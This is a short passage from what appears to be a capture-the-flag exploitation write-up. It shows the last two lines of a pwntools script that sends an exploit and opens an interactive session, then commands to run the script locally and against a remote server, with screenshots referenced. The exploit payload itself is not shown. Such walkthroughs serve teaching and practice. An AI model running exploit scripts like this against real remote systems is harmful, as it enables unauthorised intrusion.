 ```python
io.sendline(exploit)
io.interactive()
```

We execute our python code locally and check if it works.

```bash
python2.7 code.py
```

<p align="center"> <img src="assets/Untitled%208.png"> </p>

It works, now try it on the remote server.

```bash
python2.7 code.py REMOTE ip port
```

<p align="center"> <img src="assets/Untitled%209.png"> </p>
